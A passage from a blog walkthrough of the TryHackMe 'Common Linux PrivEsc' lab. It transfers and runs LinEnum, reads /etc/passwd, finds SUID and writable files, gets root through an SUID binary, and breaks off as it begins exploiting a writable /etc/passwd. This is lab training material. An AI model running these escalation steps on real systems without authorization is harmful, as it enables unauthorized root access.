 ```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```

Tasks <p class="highlight">1</p>, <p class="highlight">2</p> and <p class="highlight">3</p> don't need explanation.

## Task 4 : Enumeration

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

* * *
<p class="answer">Answer : there are 8 user[x] in the system.</p>
* * *
For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shells there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

* * *
<p class="answer">Answer : There are 4 shells in the system</p>
* * *

We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

* * *
<p class="answer">Answer : The autoscript.sh file is located in the "/home/user4/Desktop" directory</p>
* * *

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5 : Abusing SUID/SGID Files

Checking for files with the `SUID/SGID` bit set is the go-to when first getting a shell on a machine if what we want is to escalata privileges.

If the `SUID` bit is set on a file, it means that the file will be executed with the same permissions as the owner of the file.
If the `SGID` bit is set on a file, the file will be executed with the permissions of the group that owns the file.
<p class="highlight">Important : SUID and SGID have different behaviour when they are set in directories</p>

In order to find files with the SUID bit set, we can have a look at our `LinEnum` scan, or we can search them manually :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/find%20suid%20files5.png" class="border" />

```
find / -perm -u=s -type f 2>/dev/null
```
>Again, we are using `find` with its `-perm` option, this time we specify that we want any of the permission bits set (`-u=s`) and we use `-type f` so that it only returns files.

It seems that there is an uncommon file with the SUID bit set : 

* * *
<p class="answer">Answer : /home/user3/shell</p>
* * *

Due to `shell` having the SUID set, we can execute it and gain superuser privileges on the machine :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/root5.png" class="border" />

```
ls -l /home/user3/shell
./shell
```
>To check if a file has the `SUID/SGID` bit set, we look at its permissions.
>
>If they are : `rws-rwx-rwx`, the `SUID` bit is set.
>
>If they are : `rwx-rws-rwx`, the `SGID` bit is set.
>
><p class="highlight"> Notice that they are marked with the character "s".</p>

## Task 6 : Exploiting writeable /etc/passwd

The `/etc/passwd` file stores valuable account information, <p class="highlight">it doesn't contain passwords</p>, it contains a list of the accounts of the system and it provides information about each and every of them, such as user ID, group ID, home directory, etc.
This file needs to have read permissions because other utilities require them to properly work, however it must not have write permissions except for the root account.
When a user can write in the /etc/passwd file, it can lead to a security breach, which is what we are going to exploit right about now :

What direction privilege escalation is the attack?

<p class="highlight">Horizontal privilege escalation</p> occurs when we take over a user who is on the same privilege level as us.

<p class="highlight">Vertical privilege escalation</p> takes place when we want to access an account which privileges are higher than ours.

* * *
<p class="answer"> Answer : Vertical</p>
* * *

The way to exploit the vulnerability that we have found (which is that /etc/passwd can be writen to by a non-superuser account) is adding a new line of text to /etc/passwd with the intention of creating a new account in the system, with the password that we decide, and superuser privileges.

**How is the /etc/passwd structured?**

<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
 .answer {
 text-shadow : 0px 0px 4px #ADFF2F }
 .highlight {
 text-shadow : 0px 0px 4px #ff6699 }
</style>
